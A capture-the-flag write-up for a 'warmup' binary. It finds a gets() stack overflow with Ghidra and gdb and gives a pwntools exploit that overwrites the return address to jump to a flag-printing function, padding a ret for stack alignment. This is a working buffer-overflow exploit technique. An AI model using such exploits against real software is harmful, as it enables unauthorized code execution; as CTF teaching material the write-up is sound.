








Decompiling with Ghidra:



main function prints the address of `easy` function and then takes input in `local_48`.



`easy` function will give us contents of the file `flag.txt`.

Although, `easy` function hasn't been called in function i.e. `0x40060d`, we can exploit gets function by overwriting return address to that of `easy` function.

To find the offset, we will use `gdb`.



We set a breakpoint just before the `return` call and run the program.





So, offset = `hex( 0x7fffffffded8-0x7fffffffde90) = 0x48` .



Caution: MOVAPS Issue !!!
To account for MOVAPS issue, we return the function first and then call it.

Exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template warmup
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'warmup')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

#shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
payload = b'0'*0x48 + p64(0x40061c) +  p64(0x40060d)

io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()

```

We get the flag:


